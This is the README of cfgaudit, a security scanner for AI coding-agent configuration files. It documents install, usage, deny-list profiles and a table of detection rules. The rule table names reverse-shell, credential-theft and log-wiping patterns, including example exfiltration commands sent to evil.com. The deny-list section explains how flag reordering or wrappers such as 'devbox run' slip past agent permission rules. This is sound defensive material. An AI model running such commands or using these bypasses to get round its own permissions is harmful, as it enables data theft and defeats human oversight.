

<p align="center">
  
</p>

# cfgaudit

Security auditor for AI-agent configuration files.

cfgaudit scans the configuration of AI coding assistants — starting with [Claude Code](https://docs.anthropic.com/en/docs/claude-code) — and flags settings that violate the principle of least privilege or leave sensitive files exposed to the agent's context.

Every finding maps to an [OWASP Top 10 for LLM Applications 2025](https://owasp.org/www-project-top-10-for-large-language-model-applications/) risk (the primary mapping). Two secondary lenses are also provided: the [OWASP MCP Top 10](#owasp-mcp-top-10-mapping-secondary) for the MCP-server rules, and the [OWASP AISVS 1.0 mapping](docs/aisvs-mapping.md) for teams who verify against the AI Security Verification Standard. A behavioral [crosswalk to AVE](docs/cfgaudit-to-ave.md) (Agentic Vulnerability Enumeration) maps the rules to AVE's behavioral classes. The primary OWASP LLM id **and** the mapped AVE id ride in the JSON and SARIF output (`OWASP`/`AVEID` in JSON; `properties.owasp_llm`/`properties.ave_id` in SARIF, alongside the CFG `ruleId`). The rule→AVE mapping lives in a single file (`cmd/cfgaudit/avemap.go`) with the crosswalk doc as its human-readable companion.

---

## Install

Homebrew (macOS / Linux):

```sh
brew install cfgaudit/tap/cfgaudit
```

With the Go toolchain:

```sh
go install github.com/cfgaudit/cfgaudit/cmd/cfgaudit@latest
```

Or download a pre-built binary (Linux / macOS / Windows, amd64 / arm64) from the [releases page](https://github.com/cfgaudit/cfgaudit/releases).

Container image:

```sh
docker run --rm -v "$PWD:/work" -w /work ghcr.io/cfgaudit/cfgaudit:latest .
```

The image runs unprivileged as uid `65532`, so the files you mount must be readable by that uid (normal `644`/`755` permissions are fine). cfgaudit only reads them — write the report with a shell redirection on the host (`> report.sarif`) rather than into the mount.

---

## Verifying a release

Every release is built by a GitHub Actions workflow that publishes [build provenance](https://slsa.dev/), and the container image is additionally signed with [cosign](https://github.com/sigstore/cosign). Both are keyless — the signing identity *is* the workflow, so a verified artifact provably came from this repository's release pipeline.

**Release archive** — provenance for the archive you downloaded:

```sh
gh attestation verify cfgaudit_1.12.1_linux_amd64.tar.gz -R cfgaudit/cfgaudit
```

**`checksums.txt`** — verify this too if you check downloads against it (the plugin wrapper in `bin/cfgaudit` does):

```sh
gh attestation verify checksums.txt -R cfgaudit/cfgaudit
```

**Container image** — provenance and signature, both bound to the image digest rather than a tag, since a tag can be repointed later:

```sh
DIGEST=$(docker buildx imagetools inspect ghcr.io/cfgaudit/cfgaudit:latest --format '{{.Manifest.Digest}}')

gh attestation verify "oci://ghcr.io/cfgaudit/cfgaudit@$DIGEST" -R cfgaudit/cfgaudit

cosign verify "ghcr.io/cfgaudit/cfgaudit@$DIGEST" \
  --certificate-identity-regexp '^https://github.com/cfgaudit/cfgaudit/' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com
```

Attestations and the image signature are published from **v1.8.0** onward, the first release built by the signing pipeline; `checksums.txt` is covered from the same release.

### A note on SBOMs

The container image carries its SBOM as a signed attestation. The per-archive `.sbom.json` files, by contrast, are published as **plain release assets, not attestations** — deliberately.

Each one lists cfgaudit itself, its two dependencies (`gopkg.in/yaml.v3`, `github.com/BurntSushi/toml`), the Go standard library, and the archive's own digest. That is the same information `go.mod` already makes public, and the archive it describes is covered by provenance — so a swapped SBOM cannot make a tampered archive verify. If you need an SBOM you can trust end to end, use the image attestation, or regenerate one from a verified archive with [syft](https://github.com/anchore/syft).

---

## Usage

```sh
# Audit the current directory
cfgaudit

# Audit a specific project root
cfgaudit /path/to/project

# Output format defaults to "auto": a table on an interactive terminal, plain
# text when piped or redirected. Force either with --format table / --format text.
cfgaudit --format table

# Output as JSON (for CI integration)
cfgaudit --format json

# Output as SARIF 2.1.0 (for GitHub Code Scanning)
cfgaudit --format sarif > cfgaudit.sarif

# Output as Code Climate JSON (for GitLab Code Quality / merge-request findings)
cfgaudit --format codeclimate > gl-code-quality.json

# Override the Claude Code version used for rule gating (otherwise detected via `claude --version`)
cfgaudit --claude-version 2.1.148

# Print cfgaudit version and exit
cfgaudit --version

# Run only specific rules (CSV or repeated; --only and --skip can be combined)
cfgaudit --only CFG001,CFG003
cfgaudit --only CFG001 --only CFG003
cfgaudit --skip CFG006,CFG009

# Use an explicit config file (otherwise .cfgaudit.yml is auto-discovered)
cfgaudit --config path/to/.cfgaudit.yml

# Also scan a Claude Code plugin/skill package
cfgaudit --plugins ./my-plugin

# Zero-tolerance CI: make warn findings fail the build too
cfgaudit --strict

# Deeper shell analysis of hook commands (CFG045, needs the shellcheck binary)
cfgaudit --shellcheck

# Explain a rule in the terminal (renders its docs)
cfgaudit explain CFG001

# List all rules (filter by OWASP — LLM or MCP — or output JSON)
cfgaudit list
cfgaudit list --owasp LLM06
cfgaudit list --owasp MCP05
cfgaudit list --format json

# Scaffold a hardened .claude/settings.json for a new project
cfgaudit init                       # write a safe-default deny list (profile: standard)
cfgaudit init --profile minimal     # credential reads only
cfgaudit init --profile paranoid    # + environment runners, shell interpreters, PowerShell
cfgaudit init --dry-run             # print the JSON without writing
cfgaudit init --interactive         # add project-specific deny entries

# Sync deny rules between settings.json and .cfgaudit.yml policy
cfgaudit policy generate            # settings.json permissions.deny -> .cfgaudit.yml require-deny
cfgaudit policy apply --dry-run     # preview: .cfgaudit.yml require-deny -> settings.json permissions.deny
cfgaudit policy apply               # write the missing deny entries
```

**`init` subcommand** — scaffolds `.claude/settings.json` with a hardened `permissions.deny` so a fresh project starts safe-by-default and passes the policy rules (CFG006/CFG041–CFG044) immediately. Aborts if the file exists (use `--force`, or `cfgaudit policy apply` to merge); `--dry-run` prints the JSON; `--interactive` adds project-specific entries.

`--profile` picks how much it writes. Each profile is a superset of the one before it, and every one of them produces a file that scans clean across **all** rules:

| Profile | Entries | What it adds |
|---|---|---|
| `minimal` | 11 | credential reads only: the smallest list that still satisfies CFG006 and CFG041–CFG044 |
| `standard` *(default)* | 32 | + destructive/network/privilege commands, the token stores the coverage rules do not name (`.netrc`, `.npmrc`, `.kube/config`, `.gnupg`, …), `Edit` protection on the same credential paths, and `Edit(**/.claude/**)` so the agent cannot rewrite the list constraining it |
| `paranoid` | 52 | + environment runners (`npx`, `docker exec`, `devbox run`, …), shell interpreters, publish/infra commands, and the PowerShell equivalents |

The runners are in `paranoid` rather than `standard` because they get in the way, not because they matter less. Claude Code strips a fixed set of wrappers before matching a Bash rule but **not** these, and upstream states the consequence: *"a rule like `Bash(devbox run *)` matches whatever comes after `run`, including `devbox run rm -rf .`"*. So every command-class entry in `standard` has a documented bypass through them. PowerShell is likewise a separate tool with its own rules, so nothing in the Bash entries applies to it on Windows.

**What a deny list can and cannot do.** The two halves are not equally strong, and it is worth saying so rather than presenting the file as a boundary:

- **Path rules hold.** `Read`/`Edit` patterns are matched against the resolved path, symlinks included. Their one trap is the anchor: a bare `**/` pattern is anchored at the working directory, so `Read(**/.ssh/**)` in a project file leaves `~/.ssh` readable. The baseline uses the `//` filesystem-root anchor for every location-named entry for exactly this reason ([CFG044](docs/rules/CFG044.md#anchor-the-pattern-at-the-filesystem-root) carries the measurement).
- **Removing a whole tool holds.** A bare `"Bash"` deny entry takes the tool out of the model's context entirely.
- **Argument-constrained Bash rules are guidance.** Matching is a literal prefix, so a reordered or inserted flag walks past a rule that names specific flags. That is why the baseline denies `rm` by name rather than `rm -rf`, and why the force-push entries carry four spellings and still are not airtight. Upstream calls these patterns "fragile" and points at OS-level sandboxing and `PreToolUse` hooks for the part a pattern cannot enforce.

Compound commands are **not** a bypass, contrary to a claim that circulates: with `Bash(touch *)` denied, `touch f && echo ok && ls` was blocked in full on 2.1.231. A rule must match each subcommand independently, and a deny on any one of them blocks the call.

**`policy` subcommand** — keeps `permissions.deny` (enforced by Claude Code) and `policy.require-deny` (audited by cfgaudit / CFG025) in sync. `generate` freezes the current runtime deny list as an auditable policy, preserving the rest of your `.cfgaudit.yml` (comments included). `apply` rolls a policy out to a project's settings; both merge **additively** (nothing is removed) and are idempotent. `apply` rewrites `settings.json` as 2-space-indented JSON with alphabetically-ordered top-level keys — run `--dry-run` first to preview.

**Zed `.zed/settings.json` command sites**

Four fields of Zed's `ProjectSettingsContent` name something the editor launches, and cfgaudit reads all four from a committed file: `context_servers` (through the MCP rules) plus `terminal.shell`, `lsp.<name>.binary` and `dap.<name>`, whose program, argv and `env` ride the command-content family the way `.zed/tasks.json` does.

**`.zed/debug.json`** is the third committed project file next to `settings.json` and `tasks.json`, and cfgaudit reads one field of it. Upstream: *"Zed will use the `build` field to run any necessary setup steps before the debugger starts"*, and *"Zed allows embedding a Zed task in the `build` field that is run before the debugger starts"*. So pressing Debug on a scenario labelled "Debug server" runs whatever that field names, under a label that describes the session rather than the command. `program`, `args` and `env` are **not** read: they name the binary the user asked to debug, which is the thing they picked, the same line `.zed/tasks.json` draws between a `create_worktree` hook task and one invoked from the task list. A `build` that names an existing task by label is resolved against `.zed/tasks.json` and the finding is attributed to that file, since that is where the command lives.

Two distinctions keep this honest:

- **This file *is* worktree-trust gated**, unlike `.zed/tasks.json`. The findings say "runs on worktree trust" rather than implying zero-click. They are reported anyway on the footing that already applies to `context_servers` in the same file: trust is one prompt covering the whole worktree, granted for any Zed functionality at all, not consent to a specific binary.
- **Only a shell's arguments are shell text.** `lsp.binary.arguments` and `dap.args` go to `execve`, so a `$VAR` or `$(…)` there is literal bytes. cfgaudit passes the full line to the content rules only when the program is an interpreter (`sh`, `bash`, `pwsh`, …), and the program alone otherwise. Without that split, a real config passing `${projectRoot}#python-lsp` to `nix run` reported an interpolation that cannot happen.

**Scope-aware findings**

Each finding carries a `Scope` (`project`, `project-local`, or `user`) reflecting which file it came from. Rules whose blast radius is amplified when the misconfiguration lives in user-global settings append an explanatory note to the message, and `CFG009` (hook command interpolates a shell variable) escalates from `warn` to `error` at user scope — a malicious hook in `~/.claude/settings.json` fires on every project the user opens.

**Version gating**

Some rules require a minimum Claude Code release before they make sense. cfgaudit runs `claude --version` once per invocation, compares the result to each rule's `MinVersion`, and replaces below-threshold rules with a single `info`-severity skip notice. The detected version is logged to stderr at the start of each scan; the `--claude-version` flag overrides detection (useful in CI containers where the binary is not installed). When neither detection nor the flag yields a version, every rule runs unconditionally.

**Exit codes**

| Code | Meaning |
|------|---------|
| `0` | No findings, or only `warn`/`info` (without `--strict`) |
| `1` | At least one `error`-severity finding (or any `warn` under `--strict` / `strict: true`) |
| `2` | Tool error (file not found, parse error) |

**Suppressing a finding**

Add a comment on the same line or the line above in the relevant config file:

```json
// cfgaudit:ignore CFG001 -- intentional for local dev sandbox
```

**Configuration file (`.cfgaudit.yml`)**

cfgaudit auto-discovers a `.cfgaudit.yml` (or `.cfgaudit.yaml`) in the scanned directory; `--config <path>` overrides discovery. CLI flags take precedence over the file.

```yaml
# Per-rule overrides
rules:
  CFG003: off           # disable a rule (flat form)
  CFG004:
    severity: warn      # override a rule's severity (also accepts the flat form CFG004: warn)

# Drop findings below this severity ("error", "warn", "info")
min-severity: warn

# Treat warn findings as errors for the exit code
strict: false

# Always exit 0 on a successful run (advisory mode for non-blocking CI)
no-exit-codes: false

# Run shellcheck on hook/helper commands (CFG045; needs the shellcheck binary)
shellcheck: false

# Path globs (relative to the scanned dir) whose findings are excluded.
# Supports *, ** and a trailing / for directory prefixes.
exclude-paths:
  - vendor/
  - "**/.claude/settings.local.json"

# Org policy (CFG025): commands that must be denied / must not be allowed.
# Matching is containment-aware (Bash(git:*) covers Bash(git commit:*)).
policy:
  require-deny:
    - "Bash(git commit:*)"   # must be covered by permissions.deny
  forbid-allow:
    - "Bash(git commit:*)"   # must not be grantable by permissions.allow
```

---

## GitHub Action

Run cfgaudit in a workflow without installing anything — the action wraps the published container image:

```yaml
- uses: cfgaudit/cfgaudit@v1
  with:
    path: .
```

Upload findings to GitHub Code Scanning via SARIF (add `permissions: security-events: write` to the job):

```yaml
- uses: cfgaudit/cfgaudit@v1
  with:
    format: sarif
    output: cfgaudit.sarif
    fail-on: never          # advisory: let Code Scanning surface findings, don't fail the step
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: cfgaudit.sarif
```

**Inputs:** `path` (default `.`), `format` (`text`/`json`/`sarif`), `strict`, `user`, `config`, `plugins`, `output`, `fail-on` (`error`/`never`), `image`.
**Outputs:** `exit-code`, `output-file`. By default the step fails on findings at or above the configured threshold; set `fail-on: never` for advisory mode.

---

## GitLab CI/CD component

For GitLab pipelines, include the component (published to the [CI/CD Catalog](https://docs.gitlab.com/ci/components/)):

```yaml
include:
  - component: gitlab.com/cfgaudit/cfgaudit/cfgaudit@v1.12.1
    inputs:
      path: .
      format: text
```

Inputs: `stage`, `path`, `format`, `version` (pinned ghcr.io image tag), `allow_failure`. The job fails the pipeline on `error`-severity findings unless `allow_failure: true`.

To surface findings **inline in merge requests** via the Code Quality widget, use the second component (emits a GitLab Code Quality report):

```yaml
include:
  - component: gitlab.com/cfgaudit/cfgaudit/cfgaudit-code-quality@v1.12.1
    inputs:
      path: .
```

Pin the component to a released tag, not a moving ref — consistent with cfgaudit's own supply-chain guidance (CFG010/CFG013).

---

## Claude Code plugin

The repo doubles as a Claude Code plugin marketplace. Install it to get an on-demand scan command plus automatic scans when config files change:

```
/plugin marketplace add cfgaudit/cfgaudit
/plugin install cfgaudit@cfgaudit
```

The plugin adds:

- **`/cfgaudit:scan`** — scan the current project on demand.
- **`/cfgaudit:explain <RULE>`** — explain a rule (what it checks, why, how to fix); with no argument it lists the rules.
- **`/cfgaudit:init`** — scaffold a **project-aware** `.claude/settings.json`: Claude inspects the project's tooling and tailors the deny list on top of the baseline, then verifies 0 findings.
- A **Stop hook** (scan when a session ends) and a **PostToolUse hook** (scan after edits to `settings.json` / `CLAUDE.md` / `.mcp.json` / `.claude/` files).

Hooks call a `cfgaudit` binary on your `PATH` (install via Homebrew or `go install` above); if none is found the bundled wrapper downloads the matching prebuilt release binary for your OS/arch (checksum-verified and cached) — **no Go toolchain required**. Team rollout via `.claude/settings.json`:

```json
{
  "extraKnownMarketplaces": {
    "cfgaudit": { "source": { "source": "github", "repo": "cfgaudit/cfgaudit" } }
  }
}
```

---

## What cfgaudit checks

Rules are grouped by the part of the configuration they target.

### `settings.json` — permissions, env, hooks & files

General Claude Code settings: the permission model, environment block, lifecycle hooks, command-running helpers, schema, and local-file hygiene.

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG001](docs/rules/CFG001.md) | error | `permissions.allow` grants unrestricted shell — `Bash(*)`/`Bash(**)`, bare `Bash`, or `PowerShell`/`PowerShell(*)` | LLM06 |
| [CFG002](docs/rules/CFG002.md) | warn | `permissions.allow` grants unrestricted file-write — `Edit(*)`/`Write(*)` or bare `Edit`/`Write` | LLM06 |
| [CFG040](docs/rules/CFG040.md) | warn | `permissions.allow` contains unrestricted `WebFetch` (bare / `domain:*`) — fetch-any-URL exfiltration channel | LLM06 |
| [CFG023](docs/rules/CFG023.md) | error/warn | `permissions.allow` grants a dangerous command with wildcard args (`curl`/`sudo`/`npx`/shells → error; `find`/`sed`/`git`/interpreters/`ssh` → warn) | LLM06 |
| [CFG025](docs/rules/CFG025.md) | error | custom org policy from `.cfgaudit.yml` violated (`require-deny` / `forbid-allow`) — inert unless a `policy:` is configured | LLM06 |
| [CFG004](docs/rules/CFG004.md) | error/warn | `defaultMode` set to `bypassPermissions` or `auto` | LLM06 |
| [CFG085](docs/rules/CFG085.md) | error/warn | subagent frontmatter weakens the permission mode — `.claude/agents/*.md` `permissionMode: bypassPermissions`/`dontAsk` → error, `auto`/`acceptEdits` → warn; Grok `.grok/agents/*.md` flags only `bypassPermissions` (the sole mode Grok wires at spawn) — CFG004's modes reached through a committed agent file | LLM06 |
| [CFG079](docs/rules/CFG079.md) | error/warn | `autoMode` weakens the auto-mode permission classifier — a broad `allow` entry (`*`/`Bash(*)` → error) or a `soft_deny` array that drops the built-in defaults by omitting `"$defaults"` (→ warn) | LLM06 |
| [CFG005](docs/rules/CFG005.md) | error | `ANTHROPIC_BASE_URL` points to a non-Anthropic endpoint (CVE-2026-21852) | LLM02 |
| [CFG046](docs/rules/CFG046.md) | warn/error | `OTEL_EXPORTER_OTLP_*ENDPOINT` redirects telemetry to a non-local collector (error for a raw IP) | LLM02 |
| [CFG006](docs/rules/CFG006.md) | warn | `permissions.deny` is absent or empty — no guardrails block destructive operations | LLM06 |
| [CFG041](docs/rules/CFG041.md) | error | `permissions.deny` exists but does not restrict `.env` files — Claude can read credentials | LLM02 |
| [CFG042](docs/rules/CFG042.md) | error | `permissions.deny` does not restrict private-key / certificate files (`*.pem`/`*.key`/`*.p12`/`*.pfx`/`*.jks`) | LLM02 |
| [CFG043](docs/rules/CFG043.md) | error | `permissions.deny` does not restrict cloud credential files (AWS `.aws`, GCP `gcloud`, Azure `.azure`) | LLM02 |
| [CFG044](docs/rules/CFG044.md) | error | `permissions.deny` does not restrict SSH private keys (`.ssh/`, `id_rsa`/`id_ed25519`/…) | LLM02 |
| [CFG007](docs/rules/CFG007.md) | error | `env` block contains a hardcoded secret (vendor key prefix or `*_TOKEN`/`*_SECRET`/...) | LLM02 |
| [CFG073](docs/rules/CFG073.md) | error | `env`/MCP `env`/`headers` value is a hardcoded cryptocurrency signing credential — Ethereum private key (`0x`+64 hex) or BIP-39 seed phrase — which **cannot be rotated**; CFG054's entropy heuristic misses both | LLM02 |
| [CFG008](docs/rules/CFG008.md) | error | command matches a reverse-shell pattern (`/dev/tcp/`, `nc -e`, `bash -i …`, `mkfifo`, `socat exec`) — scans hooks, credential/runtime helpers, and MCP `headersHelper` | LLM06 |
| [CFG009](docs/rules/CFG009.md) | warn/error | command interpolates a shell variable (`$VAR` / `${VAR}`) — attacker-influenced data may reach a shell; escalates to `error` at user scope | LLM01 |
| [CFG012](docs/rules/CFG012.md) | warn | `settings.json` contains an unknown top-level key or a value whose type contradicts the bundled SchemaStore schema | LLM02 |
| [CFG013](docs/rules/CFG013.md) | warn | `.claude/settings.local.json` or `CLAUDE.local.md` exists in the repo but is not excluded by `.gitignore` | LLM02 |
| [CFG014](docs/rules/CFG014.md) | error | command pipes `curl`/`wget` output directly into a shell or interpreter (remote code execution) | LLM03 |
| [CFG015](docs/rules/CFG015.md) | warn/error | command contains `$(…)` or backtick substitution (error if the substitution itself reaches the network) | LLM01 |
| [CFG016](docs/rules/CFG016.md) | error/info | credential helper (`apiKeyHelper`, `awsCredentialExport`, `awsAuthRefresh`, `gcpAuthRefresh`) defined in project-scoped settings (CVE-2025-59536) | LLM02 |
| [CFG022](docs/rules/CFG022.md) | error/warn | `sandbox` config weakens or hijacks the execution sandbox — `excludedCommands` wildcard/shell, `bwrapPath`/`socatPath`, privileged `network.allowUnixSockets` (docker.sock), dangerous `filesystem.allowWrite` ($PATH/shell-rc), `enableWeakerNestedSandbox`/`enableWeakerNetworkIsolation` (warn), and user-scope `allowAppleEvents`/`filesystem.disabled` (project-ignored keys not flagged) (CVE-2026-39861) | LLM06 |
| [CFG027](docs/rules/CFG027.md) | error | command installs a persistence mechanism (cron, shell startup files, `systemctl enable`, launchd) — scans hooks and helpers | LLM06 |
| [CFG028](docs/rules/CFG028.md) | error | command writes to a Claude trust/config file (`CLAUDE.md`, `settings.json`, `.mcp.json`, `.claude/`) — self-perpetuating injection / persistence | LLM06 |
| [CFG037](docs/rules/CFG037.md) | error | command reads or copies SSH private keys (`~/.ssh/id_rsa`, `id_ed25519`, …) — scans hooks and helpers | LLM02 |
| [CFG078](docs/rules/CFG078.md) | error | command reads an OS credential store — macOS Keychain (`security find-*-password`/`dump-keychain`), Linux keyring (`secret-tool lookup`), `/etc/shadow` (`getent shadow`), or a browser saved-password DB (`logins.json`/`key4.db`/`Login Data`) — scans hooks and helpers | LLM02 |
| [CFG038](docs/rules/CFG038.md) | error | command dumps environment variables to the network (`env`/`printenv` → `curl`/`nc`) — exfiltrates all secrets | LLM02 |
| [CFG072](docs/rules/CFG072.md) | error | command encodes a `$(…)`/backtick substitution into a DNS query name or URL host (`dig "$(cat secret).evil.com"`, `curl http://$(env).evil.com`) — exfiltrates data over UDP/53, the channel CFG038 misses | LLM02 |
| [CFG039](docs/rules/CFG039.md) | warn/error | command runs a recursive force-delete (`rm -rf`) — error when the target is broad (`~`, `/`, `..`, `$HOME`, `*`) | LLM06 |
| [CFG077](docs/rules/CFG077.md) | error | command destroys an audit trail — clears shell history (`history -c`, `unset HISTFILE`), purges system logs (`journalctl --vacuum`, `rm /var/log`), or shreds files (`shred`/`srm`) — anti-forensics that hides another action | LLM06 |
| [CFG082](docs/rules/CFG082.md) | warn/error | Docker daemon redirected off-host — `DOCKER_HOST` env or a `docker -H`/`--host` flag pointing at a remote `tcp://`/`ssh://` daemon (error for a raw IP) — runs containers on and reads context from a machine you may not control | LLM02 |
| [CFG084](docs/rules/CFG084.md) | warn | container image trust verification disabled — `DOCKER_CONTENT_TRUST=0`, `--disable-content-trust` or `--insecure-registry` in a command site, `settings.json` `env` or an MCP server `env` — `docker pull` then accepts an unsigned or substituted image | LLM03 |
| [CFG045](docs/rules/CFG045.md) | error/warn/info | ShellCheck analysis of hook/helper commands (opt-in `--shellcheck`; SC codes in the message) | LLM06 |
| [CFG067](docs/rules/CFG067.md) | warn | hooks defined in a project-scoped `.claude/settings.json` — committed hooks run on every developer who opens the repo (CVE-2025-59536); content checks (CFG008/014/…) fire separately | LLM03 |

### MCP servers — `settings.json` `mcpServers` & `.mcp.json`

Rules about MCP servers. MCP is a shared standard, so the per-server checks (CFG010–CFG021) are **cross-agent**: they run against the inline `mcpServers` block in `settings.json`, the project's root `.mcp.json` (the file that `enableAllProjectMcpServers` / `enabledMcpjsonServers` auto-approve), and other agents' MCP configs when present — `.cursor/mcp.json` (+ `~/.cursor/mcp.json` with `--user`), `.vscode/mcp.json` (VS Code's top-level `servers` key is handled), `cline_mcp_settings.json`, Windsurf's `~/.codeium/windsurf/mcp_config.json`, the `context_servers` block of Zed's project-scoped `.zed/settings.json` (JSONC; its `terminal.shell`, `lsp.<name>.binary` and `dap.<name>` are read too, as command sites), Devin CLI's `.devin/mcp_config.json` and its gitignored twin `.devin/mcp_config.local.json`, plus the legacy `mcpServers` block of `.devin/config.json` and `.devin/config.local.json` (whose `transport` field is folded into `type`), the `mcpServers` block of Gemini CLI's `.gemini/settings.json` (+ `~/.gemini/settings.json` with `--user`), the `[mcp_servers]` tables of OpenAI Codex CLI's `.codex/config.toml` (project-scoped, plus `~/.codex/config.toml` with `--user`), the `[mcp_servers]` tables of xAI Grok CLI's `.grok/config.toml` (transport inferred from `command` vs `url`), the `mcpServers` list of Continue's `.continue/config.yaml` (+ `~/.continue/config.yaml` with `--user`), the `mcp` block of OpenCode's project `opencode.json` (JSONC despite the extension; its `command` array is split into the executable and its arguments and `environment` maps onto `env`, and a server with `enabled: false` is skipped), the inline `mcpServers:` block in a Claude Code **subagent definition's frontmatter** (`.claude/agents/*.md`), which connects when that subagent starts, and the inline `mcp-servers:` block in a **GitHub Copilot custom agent** (`.github/agents/*.md`). Each finding is attributed to the file the server was declared in. A malformed config is reported as a tool error rather than silently skipped. `CFG003` governs the blanket auto-approval flag and is Claude Code–specific (`settings.json` only).

The root **`.mcp.json` is not Claude-Code-only**: Kimi Code CLI reads the same repo-root file (`agent-core/src/mcp/config-loader.ts` — `projectRoot: join(projectRoot, '.mcp.json')`, resolved from the nearest `.git` ancestor) and **executes its stdio entries when a session starts**, with **no trust gate** — the vendor's own comment says only "Only enable this in repos you trust." So the MCP rules cfgaudit already runs on `.mcp.json` protect Kimi users too, undocumented in Kimi's own MCP docs. (Kimi's project-local `.kimi-code/mcp.json`, which overrides this root file, is covered in the Kimi Code section below.)

| ID | Severity | Description | OWASP |
|----|----------|-------------|-------|
| [CFG003](docs/rules/CFG003.md) | error | `enableAllProjectMcpServers: true` — auto-approves all repo MCP servers (CVE-2025-59536) | LLM06 |
| [CFG053](docs/rules/CFG053.md) | error/warn | blanket MCP-trust settings — `allowAllClaudeAiMcps: true`, `enabledMcpjsonServers` with `*`/huge list, or a wildcard `allowedMcpServers` `serverUrl` | LLM06 |
| [CFG055](docs/rules/CFG055.md) | error/warn | committed settings `enabledPlugins` auto-enables a plugin (loads its hooks/MCP) or `extraKnownMarketplaces` (or its alias `additionalMarketplaces`) registers a third-party marketplace | LLM03 |
| [CFG098](docs/rules/CFG098.md) | error/warn | committed `.claude-plugin/marketplace.json` publishes a plugin nothing pins — an `archive` source with no `sha256` (→ error: no git object model behind it, so the plugin is whatever the server serves at install time; verified in the binary, the hash is compared only when the entry declares one), or an `npm` source resolving from a non-default `registry` (→ warn). Unpinned `github`/`url`/`git-subdir` sources are **not** flagged: under 9% of real marketplaces carry any `sha` and upstream documents the omission as the normal case | LLM03 |
| [CFG010](docs/rules/CFG010.md) | warn | MCP server uses unpinned package or image version (`@latest`, `:latest`, no `@version`; npx/pnpm/yarn/bunx + uvx/pipx `==` pins) | LLM03 |
| [CFG011](docs/rules/CFG011.md) | warn | MCP server `alwaysAllow` is too broad (wildcard, state-mutating tools, or 10+ entries) | LLM06 |
| [CFG017](docs/rules/CFG017.md) | error | MCP server sets `dangerouslyAllowBrowser: true` — browser-originated requests enable DNS-rebinding to RCE (CVE-2025-49596) | LLM06 |
| [CFG018](docs/rules/CFG018.md) | warn | MCP server binds to all interfaces (`0.0.0.0` / `[::]`) — reachable by anyone on the LAN ("NeighborJack") | LLM06 |
| [CFG019](docs/rules/CFG019.md) | error | MCP server `command` runs an inline script — a shell interpreter (`bash`/`pwsh`/…) or a language interpreter with an eval flag (`node -e`, `python -c`, `deno eval`, …) — a hallmark of a poisoned config (CVE-2026-21518) | LLM06 |
| [CFG020](docs/rules/CFG020.md) | error | MCP server `env` injects code at startup — dynamic linker (`LD_PRELOAD`/`DYLD_*`) or interpreter startup vectors `BASH_ENV`/`PYTHONSTARTUP`/`NODE_OPTIONS`/`RUBYOPT`/`PERL5OPT` (CVE-2026-44995) | LLM06 |
| [CFG021](docs/rules/CFG021.md) | warn | MCP server `env` routes traffic through a non-local proxy (`HTTP_PROXY`/`HTTPS_PROXY`/`ALL_PROXY`) — MITM and header-secret capture | LLM02 |
| [CFG049](docs/rules/CFG049.md) | error/warn | remote MCP server `url` points to a non-loopback host (cleartext `http://`/`ws://` or raw IP → error; TLS hostname → warn) — exfiltration / MITM channel | LLM02 |
| [CFG050](docs/rules/CFG050.md) | error | a committed `env` or `headers` block contains a hardcoded secret (vendor key pattern, secret-like name, or auth header with a literal credential) — MCP servers, a Copilot `type: "http"` hook, an `extraKnownMarketplaces` entry (whose headers Claude Code sends with same-origin archive downloads), and Continue's `requestOptions.headers` on `models`/`mcpServers`/`data` plus a `data` entry's `apiKey`. CI expressions (`${{ secrets.X }}`), unfilled all-caps templates and bare auth-scheme words are **not** flagged | LLM02 |
| [CFG054](docs/rules/CFG054.md) | warn | high-entropy value in `env`/`headers` that looks like a hardcoded secret under an innocuous key name (entropy fallback to CFG007/CFG050) | LLM02 |
| [CFG052](docs/rules/CFG052.md) | warn | MCP server name declared in multiple sources (`settings.json` `mcpServers` + `.mcp.json`) — ambiguous precedence / shadowing | LLM03 |
| [CFG066](docs/rules/CFG066.md) | warn/error | MCP server `env` sets a wildcard CORS origin (`*`) — any web page can call it; error when authentication is also disabled (CVE-2026-33010) | LLM06 |
| [CFG068](docs/rules/CFG068.md) | error | MCP server forwards a templated credential (`{{TOKEN}}`/`${SECRET}` in an auth header/env) to a cleartext or raw-IP endpoint — runtime expands it to a real secret sent there (CVE-2026-31951) | LLM02 |
| [CFG069](docs/rules/CFG069.md) | warn | MCP server `env` enables HTTP transport without log redaction / a quiet log level — request bodies (Bearer tokens, API keys) get logged (CVE-2026-42282/41495) | LLM02 |
| [CFG075](docs/rules/CFG075.md) | error | MCP server `env`/`args` disables TLS certificate verification (`NODE_TLS_REJECT_UNAUTHORIZED=0`, `GIT_SSL_NO_VERIFY`, `--insecure`, `sslmode=disable`, …) — turns an `https://` endpoint into a MITM-able channel | LLM02 |
| [CFG076](docs/rules/CFG076.md) | error/warn | MCP server `args` expose a broad filesystem root (`/`, `~`, `$HOME`, drive root → error; `..` parent traversal → warn) — a filesystem server scoped to the whole machine/home instead of one directory | LLM06 |
| [CFG083](docs/rules/CFG083.md) | error | MCP server `args` carry a Chromium command-replacing launch switch (`--utility-cmd-prefix`, `--renderer-cmd-prefix`, `--gpu-launcher`, `--browser-subprocess-path`) — launching the browser runs an arbitrary binary (CVE-2026-57572 class); debugger/profiler prefixes are not flagged | LLM06 |
| [CFG070](docs/rules/CFG070.md) | warn | MCP server `command` is a repo-relative path (`./x`, `scripts/x`) — a committed in-repo executable that auto-runs on clone (CVE-2025-54135) | LLM03 |
| [CFG058](docs/rules/CFG058.md) | warn | MCP server uses the deprecated `type: "sse"` transport — superseded by Streamable HTTP (`type: "http"`); weaker transport with DNS-rebinding/Origin pitfalls | LLM02 |
| [CFG059](docs/rules/CFG059.md) | error/warn | MCP server / hook package or endpoint host is a typosquat of a known-good identifier — covers `mcpServers` launchers and `npx`/`bunx`/`pnpm dlx`/`yarn dlx` packages run from any command site (homoglyph / one-char → error; two-char / unofficial scope → warn) | LLM03 |

#### OWASP MCP Top 10 mapping (secondary)

The MCP-server rules above carry a **secondary** mapping to the [OWASP Top 10 for Model Context Protocol](https://owasp.org/www-project-mcp-top-10/), in addition to their primary LLM Top 10 risk. It is a complementary lens for readers who think in the MCP taxonomy; the LLM mapping stays primary.

> **Provisional.** Mapped against **OWASP MCP Top 10 v0.1 (Beta, Phase 3)** — IDs and titles may still change before final release. Filter from the CLI with `cfgaudit list --owasp MCP05`.

| OWASP MCP (v0.1) | Rules |
|------------------|-------|
| MCP01 – Token Mismanagement & Secret Exposure | CFG021, CFG049, CFG050, CFG054, CFG058, CFG068, CFG069, CFG075 |
